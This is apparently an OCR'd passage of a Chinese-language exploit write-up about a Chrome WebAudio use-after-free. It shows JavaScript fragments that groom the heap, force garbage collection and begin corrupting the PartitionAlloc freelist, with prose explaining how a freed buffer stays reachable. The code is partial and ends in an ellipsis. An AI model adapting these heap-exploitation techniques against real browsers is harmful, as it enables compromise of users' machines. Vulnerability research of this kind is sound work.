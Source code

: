 ```JavaScript
				imageDataArray.push(new ImageData(1, 2));

			imageDataArray = new Array(10);
			await collectGargabe();

			for (let j = 0; j < audioBufferArray1.length; j++) {
				let auxArray = new
					BigUint64Array(audioBufferArray1[j].getChannelData(0).buffer);
				if (auxArray[0] != BigInt(0)) {
					kickPayload(auxArray);
					return;
				}
			}
			return;
		}
	}
}

function collectGargabe() {
	let promise = new Promise(function (cb) {
		let arg;
		for (let i = 0; i < 400; i++)
			new ArrayBuffer(1024 * 1024 * 60).buffer;
		cb(arg);
	});
	return promise;
}
```

`IIRFilter`、`ImageData`、`AudioBuffer` 这几个对象，及其内部的一些成员，是由 Oilpan GC 管理的，为了确保它们在特定的时刻被释放，需要主动触发 GC，`collectGarbage` 函数通过申请多个 `ArrayBuffer` 占用大量内存来触发 GC。

我们已经构造出使用同一地址的 `IIRFilter::feedforward_` 和 `ArrayBufferContents::DataHolder` 两个对象。接下来把 `IIRFilter` 销毁，再创建另一个 `ArrayBufferContents::DataHolder` 对象，由于两个对象共用同一块内存，此操作就相当于把前一个 `ArrayBufferContents::DataHolder` 的内容改写掉了。之后再把第二个 `DataHolder` 销毁， `DataHolder` 的第一个 QWORD 的值被改为空闲链表的下一项，但由于这个地方存储的是引用计数 `ref_count_` ，改写后还是一个合理的引用计数，并不影响 `DataHolder` 后续使用。而 0x10 处存放的缓冲区 `DataHolder::data_` 内容不变，但是其所指向的内存已经被释放掉了。这个缓冲区可以通过 `ArrayBuffer::getChannelData(0).buffer` 访问到，这样我们通过第一个 `DataHolder` 就可以访问到已经被释放的 `DataHolder::data_`。

```JavaScript
async function kickPayload(auxArray) {
	let audioCtx = new OfflineAudioContext(1, 1, 3000);
	let partitionPagePtr = getPartitionPageMetadataArea(byteSwapBigInt(auxArray[0]));
	auxArray[0] = byteSwapBigInt(partitionPagePtr);
	let i = 0;
	do {
    		gcPreventer.push(new ArrayBuffer(8));
    		if (++i > 0x100000)
        		return;
	} while (auxArray[0] != BigInt(0));
	let freelist = new BigUint64Array(new ArrayBuffer(8));
	gcPreventer.push(freelist);

	...

```

